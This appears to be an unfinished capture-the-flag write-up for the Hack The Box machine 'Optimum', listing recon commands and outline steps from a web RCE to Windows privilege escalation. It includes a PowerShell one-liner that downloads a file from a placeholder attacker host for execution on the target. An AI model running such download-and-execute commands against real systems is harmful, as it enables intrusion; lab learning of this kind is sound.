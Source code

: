 # Optimum (Not Done)
* Link: https://app.hackthebox.com/machines/Optimum
* Type: Windows
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA OUTPUTDIR IPADDRESS* - Nmap scan.
* *tcpdump -i INTERFACE* - listens on that interface for ping requests.
* *locate filename* - finds the file path.
* *./windows-exploit-suggester.py --update*
* *./windows-exploit-suggester.py --database DBNAME.xls --systeminfo SYSTEMINFOFILE*
* *powershell -c "(new-object System.Net.WebClient).DownloadFile('http://IPADDRESS:PORTNUMBER/FILENAME', 'PATH/FILENAME.EXT')"* - downloads a file.
* *FILENAME.EXE* - Runs the file in Windows
* *type TEXTFILE.TXT* - Reads a text file.


## Steps
* Start by checking the open ports using nmap (nmap -sC -sV -oA DIR IPADDRESS)
* Finds a website check for vulnerabilities for that website.
* Find a vulnerability that gives RCE.
* Get user flag
* Get systeminfo
* Use Windows Exploit Suggestor to get a recommendation for privilege escalation.
* Find a CVE use it to get root.

## Why is the machine vulnerable
* The Machine is not patched/updated. 
